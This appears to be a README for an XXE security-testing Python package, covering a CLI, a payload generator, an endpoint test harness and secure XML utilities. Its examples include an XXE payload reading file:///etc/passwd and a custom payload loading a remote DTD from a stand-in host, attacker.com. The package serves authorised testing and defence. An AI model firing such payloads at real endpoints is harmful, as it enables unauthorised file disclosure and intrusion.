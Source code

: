 # XXE PyPI Package

[![PyPI version](https://badge.fury.io/py/xxe.svg)](https://badge.fury.io/py/xxe)
[![Python Versions](https://img.shields.io/pypi/pyversions/xxe.svg)](https://pypi.org/project/xxe/)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)

A comprehensive Python package for XML External Entity (XXE) security testing and analysis. This package provides tools for security researchers and ethical hackers to identify and analyze XXE vulnerabilities in XML processing systems.

⚠️ **IMPORTANT: This tool is for educational and authorized security testing purposes only. Only use on systems you own or have explicit permission to test.**

## Features

- 🔍 Advanced XXE vulnerability detection
- 📊 Detailed security reports and analysis
- 🛠️ Customizable payload generation
- 🧪 Automated test harness
- 🔒 Secure XML processing utilities
- 📝 Comprehensive logging and reporting

## Installation

```bash
pip install xxe
```

## Quick Start

## Command Line Interface

The XXE package includes a command line interface (CLI) for easy integration into your workflow. After installing the package, you can use the `xxe-scan` command to perform scans directly from the terminal.

### Usage

```bash
xxe-scan --help
```

This will display the help message with all available options and usage instructions.

### Example

To scan an XML file for vulnerabilities:

```bash
xxe-scan analyze-file example.xml
```

To generate a custom payload:

```bash
xxe-scan generate-payload --file-path /etc/passwd
```

To test an endpoint with a payload:

```bash
xxe-scan test-endpoint --url http://example.com/xml-endpoint --payload '<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>'
```

```python
from xxe import XXEAnalyzer, XXETestHarness, XXEPayloads

# Basic file analysis
analyzer = XXEAnalyzer()
report = analyzer.analyze_file("example.xml")
print(f"Found {report['summary']['total_vulnerabilities']} potential vulnerabilities")

# Generate test payload
payload = XXEPayloads.generate_custom_payload(file_path="/etc/passwd")

# Run security test
harness = XXETestHarness(target_url="http://example.com/xml-endpoint")
result = harness.test_endpoint(payload)
```

## Detailed Usage

### 1. XML File Analysis

```python
from xxe import XXEAnalyzer

# Create analyzer with verbose output
analyzer = XXEAnalyzer(verbose=True)

# Analyze XML file
report = analyzer.analyze_file("target.xml")

# Print detailed results
print(f"Scan completed at: {report['scan_time']}")
print("\nVulnerabilities Summary:")
print(f"High: {report['summary']['severity_counts']['HIGH']}")
print(f"Medium: {report['summary']['severity_counts']['MEDIUM']}")
print(f"Low: {report['summary']['severity_counts']['LOW']}")

# Print detailed findings
for vuln in report['vulnerabilities']:
    print(f"\nType: {vuln['type']}")
    print(f"Severity: {vuln['severity']}")
    print(f"Description: {vuln['description']}")
```

### 2. Payload Generation and Testing

```python
from xxe import XXEPayloads, XXETestHarness

# Get built-in payloads
payloads = XXEPayloads.get_basic_payloads()

# Generate custom payload
custom_payload = XXEPayloads.generate_custom_payload(
    url="http://attacker.com/evil.dtd"
)

# Create test harness
harness = XXETestHarness(target_url="http://target.com/xml")

# Run individual test
result = harness.test_endpoint(custom_payload)
print(f"Response Code: {result['status_code']}")
print(f"Response Time: {result['response_time']}s")

# Run full test suite
results = harness.run_test_suite()
```

### 3. Secure XML Processing

```python
from xxe import create_secure_xml, validate_xml_security

# Create secure XML
content = "<data>Example content</data>"
secure_xml = create_secure_xml(content)

# Validate XML security
is_safe, validation_report = validate_xml_security("input.xml")
if not is_safe:
    print("Security issues found!")
    print(validation_report)
```

## Security Features

The package includes various security features:

- DOCTYPE declaration detection
- Entity injection analysis
- External reference checking
- Comment analysis for sensitive data
- Encoding validation
- Comprehensive vulnerability reporting

## Best Practices

1. Always obtain proper authorization before testing
2. Document all testing activities
3. Follow responsible disclosure practices
4. Use secure configurations in production
5. Keep the package updated to the latest version

## Logging

The package uses Python's built-in logging module. To configure logging:

```python
import logging

logging.basicConfig(
    level=logging.INFO,
    format='%(asctime)s - %(levelname)s - %(message)s'
)
```

## Contributing

Contributions are welcome! Please feel free to submit a Pull Request. For major changes, please open an issue first to discuss what you would like to change.

1. Fork the repository
2. Create your feature branch (`git checkout -b feature/AmazingFeature`)
3. Commit your changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.


## Support

- Documentation: [https://xxe.readthedocs.io/](https://xxe.readthedocs.io/)
- Issue Tracker: [https://github.com/ishanoshada/xxe/issues](https://github.com/ishanoshada/xxe/issues)
- Security Issues: Please report security issues directly to security@yourdomain.com

## Disclaimer

This tool is for educational and authorized testing purposes only. Users are responsible for obtaining appropriate permissions before testing any systems. The authors are not responsible for misuse or damages caused by this tool.

## Authors

- Your Name ([@ishanoshada](https://github.com/ishanoshada))

## Acknowledgments

- Security researchers and ethical hackers who contributed to XXE research
- The Python security community
- All contributors to this project
